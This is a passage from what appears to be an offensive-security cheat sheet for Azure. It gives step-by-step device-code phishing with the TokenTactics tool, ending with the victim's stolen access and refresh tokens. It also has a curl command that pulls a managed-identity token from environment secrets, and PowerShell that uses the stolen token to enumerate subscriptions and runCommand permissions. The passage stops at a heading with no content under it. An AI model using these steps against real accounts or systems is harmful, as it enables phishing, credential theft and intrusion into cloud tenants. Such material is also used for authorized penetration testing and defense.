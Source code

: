 * Import TokenTactics: `PS C:\TokenTactics> Import-Module .\TokenTactics.psd1`
* Request a device code for the Azure Graph API using TokenTactics: `Get-AzureToken -Client Graph`
* Replace `<REPLACE-WITH-DEVCODE-FROM-TOKENTACTICS>` in the [phishing email](https://github.com/rvrsh3ll/TokenTactics/blob/main/resources/DeviceCodePhishingEmailTemplate.oft)
* Leave TokenTactics running in the PowerShell window and send the phishing email
* Targeted user will follow the link to https://microsoft.com/devicelogin and complete the Device Code form
* Enjoy your **Access Token** & **Refresh Token**


## Token from Managed Identity

> **MSI_ENDPOINT** is an alias for **IDENTITY_ENDPOINT**, and **MSI_SECRET** is an alias for **IDENTITY_HEADER**.

Find IDENTITY_HEADER and IDENTITY_ENDPOINT from the environment : `env`

Most of the time, you want a token for one of these resources: 
* https://storage.azure.com
* https://vault.azure.net
* https://graph.microsoft.com
* https://management.azure.com


### Azure API via Powershell

Get **access_token** from **IDENTITY_HEADER** and **IDENTITY_ENDPOINT**: `system('curl "$IDENTITY_ENDPOINT?resource=https://management.azure.com/&api-version=2017-09-01" -H secret:$IDENTITY_HEADER');`. 

Then query the Azure REST API to get the **subscription ID** and more .

```powershell
$Token = 'eyJ0eX..'
$URI = 'https://management.azure.com/subscriptions?api-version=2020-01-01'
# $URI = 'https://graph.microsoft.com/v1.0/applications'
$RequestParams = @{
 Method = 'GET'
 Uri = $URI
 Headers = @{
 'Authorization' = "Bearer $Token"
 }
}
(Invoke-RestMethod @RequestParams).value 

# List resources and check for runCommand privileges
$URI = 'https://management.azure.com/subscriptions/b413826f-108d-4049-8c11-d52d5d388768/resources?api-version=2020-10-01'
$URI = 'https://management.azure.com/subscriptions/b413826f-108d-4049-8c11-d52d5d388768/resourceGroups/<RG-NAME>/providers/Microsoft.Compute/virtualMachines/<RESOURCE/providers/Microsoft.Authorization/permissions?apiversion=2015-07-01'
```

### Azure API via Python Version
